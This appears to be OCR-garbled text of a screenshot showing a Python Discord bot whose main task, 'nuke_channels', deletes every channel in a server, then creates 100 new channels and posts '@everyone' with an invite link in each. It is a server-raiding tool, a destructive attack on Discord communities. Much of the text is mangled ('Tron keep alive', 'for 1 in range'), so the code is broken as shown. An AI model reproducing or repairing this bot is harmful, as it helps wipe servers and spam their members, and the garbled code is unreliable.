 Import discord
from discord.ext import commands, tasks import asyncio
Tron keep alive
laport
keep alive
keep alive()
intents = discord. Intents.default()
intents.messages a True
intents-guilds = True
intents.message_content = True
bot = commands.Bot (command_prefix=',', intents=intents)
my_secret = os. environ[ 'TOKEN' ]
@tasks.Loop(seconds=30)
async def nuke_channels(guild):
try:
* Increase the time interval between loops
for channel in guild.channels:
await channel.delete()
await asyncio.sleep(0.6) # Adding a small delay between channel deletions
for 1 in range(1, 101):
channel_nane = f*Channel-(1)"
new_channel = await guild.create_text_channel (channel name)
await new_channel. send("@everyone https://discord.gg/petguhadap*)
await asyncio.sleep(0.6) # Adding a delay between channel creations
except
discord. Forbidden:
print ("Missing permissions to perform channel operations.")
except Exception as e:
print(t"An error occurred: {e)")
